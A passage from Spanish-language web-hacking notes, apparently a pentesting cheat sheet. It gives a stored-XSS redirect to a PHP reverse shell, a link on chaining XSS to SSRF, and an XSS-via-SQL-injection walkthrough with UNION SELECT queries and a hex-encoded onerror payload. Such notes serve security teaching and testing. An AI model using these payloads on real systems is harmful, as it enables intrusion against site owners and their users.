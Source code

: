 Nos colocamos a la escucha por netcat.

Y si vemos una vulnerabilidad de XSS almacenado y conocemos donde se almacena el archivo php reverse shell, podemos apuntar a el mediante una injeccion XSS javascript:

```javascript
<script>window.location='http://10.10.10.45/images/reverse_shell.php'</script>
```

## XSS A SSRF

En cloud environment:

[https://namratha-gm.medium.com/chaining-bugs-escalating-xss-to-ssrf-5cd3d986a97c](https://namratha-gm.medium.com/chaining-bugs-escalating-xss-to-ssrf-5cd3d986a97c)

## XSS CON SQL INJECTION

Supongamos la siguiente url:

```
http://exploitable-web.com/link.php?id=1
```

Al colocar una comilla simple **'** en el id ocurre un fallo de base de datos.

Podemos colocar el siguiente payload:

```
'; <img src = x onerror = prompt (/ XSS /)>
```

La inyección anterior abrirá un cuadro de diálogo que dice XSS.

Una vez que se obtiene el Número de columna y estamos listos con nuestra Consulta de unión. Supongamos que tenemos 4 columnas, por lo que nuestra consulta de unión será:

```
http://exploitable-web.com/link.php?id=1' union select 1,2,3,4--
```

Podemos inyectar el payload anterior codificado en hexadecimal:

```
#payload

<img src=x onerror=confirm(/XSS/)>

#hexadecimal

0x3c696d67207372633d78206f6e6572726f723d636f6e6669726d282f5853532f293e
```

Ahora lo inyectamos en la consulta SQL:

```
http://exploitable-web.com/link.php?id=-1' union select 1,2,0x3c696d67207372633d78206f6e6572726f723d636f6e6669726d282f5853532f293e,4--
```
